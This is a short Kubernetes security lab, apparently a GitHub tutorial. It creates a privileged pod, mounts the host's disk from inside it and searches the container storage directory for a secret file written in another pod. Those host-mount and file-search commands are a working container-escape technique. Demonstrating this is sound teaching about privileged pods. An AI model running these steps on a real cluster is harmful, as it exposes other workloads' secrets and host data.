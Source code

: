 #### Step 1 - Create a Non-Priveleged Super Secret Pod:
```sh
nano super-secret-pod.yaml
```
```sh
apiVersion: v1
kind: Pod
metadata:
  name: super-secret
  namespace: development
spec:
  containers:
  - image: nginx
    name: demo-pod
```
```sh
kubectl apply -f super-secret-pod.yaml
```
#### Step 2 - Create a Privileged Pod:
```sh
nano privileged.yaml
```
```sh
apiVersion: v1
kind: Pod
metadata:
  name: privileged
  namespace: development
spec:
  containers:
  - image: nginx
    name: demo-pod
    securityContext:
      privileged: true
```
```sh
kubectl apply -f privileged.yaml
```
#### Step 3 - Store Secret Data in Super Secret Pod:
```sh
kubectl exec -n development -it super-secret -- bash
echo "TOP Secret" > /root/super-secret.txt
```
logout of the super-secret pod

#### Step 4 - Connect to Privileged Pod:

Note: The disk name might be different in your-case. Please ensure you use the right naming while mounting.
```sh
kubectl exec -it privileged -- bash
mkdir /host-data
```
```sh
mount /dev/vda1 /host-data
cd /host-data
cd /host-data/var/lib/docker/overlay2
find . -name super-secret.txt
```

